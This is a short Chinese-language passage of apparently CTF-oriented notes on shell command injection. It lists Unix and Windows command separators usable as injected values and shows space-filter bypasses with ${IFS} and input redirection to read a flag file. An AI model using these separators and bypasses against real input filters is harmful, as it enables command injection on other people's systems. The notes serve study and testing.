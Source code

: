 `{...}`与`[...]`有一个很重要的区别。如果匹配的文件不存在，`[...]`会失去模式的功能，变成一个单纯的字符串，而`{...}`依然可以展开。

```bash
$ ls [ab].txt
ls: [ab].txt: No such file or directory

$ ls {a,b}.txt
ls: a.txt: No such file or directory
ls: b.txt: No such file or directory
```

**命令分隔于执行多条命令**

Unix

```bash
%0a
%0d
;
&
|
$(shell_command)`shell_command`{shell_command,}
```

Windows

```bash
%0a
&
|
%1a - 一个神奇的角色，作为.bat文件中的命令分隔符
```

**空格过滤**

`${IFS}`：IFS是internal field separator的缩写，shell的特殊环境变量

```bash
$ cat${IFS}flag
flag{123}

$ cat$IFS$9flag  （使$IFS被当成一个整体，cat$IFSflag会把$IFSflag当成一个变量）
flag{123}
```

`<>file`：以读写模式打开文件（默认情况下在文件描述符0（stdin）上，如`<`），不会被截断，如果file不存在，则会创建文件。

```bash
$ cat<flag
flag{123}

$ cat<>flag #需要写权限
flag{123}
```



